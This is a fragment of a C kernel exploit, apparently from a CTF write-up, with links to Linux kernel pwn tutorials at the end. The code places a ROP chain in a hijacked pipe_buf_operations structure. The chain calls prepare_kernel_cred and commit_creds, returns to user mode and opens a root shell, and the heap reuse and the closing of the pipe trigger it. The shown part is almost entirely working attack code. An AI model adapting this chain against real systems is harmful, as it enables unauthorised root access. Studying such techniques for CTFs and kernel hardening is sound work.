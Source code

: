 ```c
    buf[3] = kernel_offset + POP_RBX_POP_RBP_POP_R12_RET;
    /* pipe_buf_operations->release */
    buf[4] = kernel_offset + PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET;
    buf[5] = *(size_t*) "arttnba3";
    buf[6] = *(size_t*) "arttnba3";
    buf[7] = kernel_offset + POP_RDI_RET;
    buf[8] = (size_t) NULL;
    buf[9] = kernel_offset + PREPARE_KERNEL_CRED;
    buf[10] = kernel_offset + XCHG_RDI_RAX_DEC_STH_RET;
    buf[11] = kernel_offset + COMMIT_CREDS;
    buf[12] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x31;
    buf[13] = *(size_t*) "arttnba3";
    buf[14] = *(size_t*) "arttnba3";
    buf[15] = (size_t) get_root_shell;
    buf[16] = user_cs;
    buf[17] = user_rflags;
    buf[18] = user_sp + 8; /* system() wants it : ( */
    buf[19] = user_ss;

    del(0);
    alloc(0, PIPE_BUFFER_SZ, buf);

    /* trigger pipe_buf_operations->release */
    puts("[*] trigerring pipe_buf_operations->release()...");

    close(pipe_fd[1]);
    close(pipe_fd[0]);

    return 0;
}

```

## REFERENCE

[【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/)

[【PWN.0x02】Linux Kernel Pwn II：常用结构体集合](https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/)
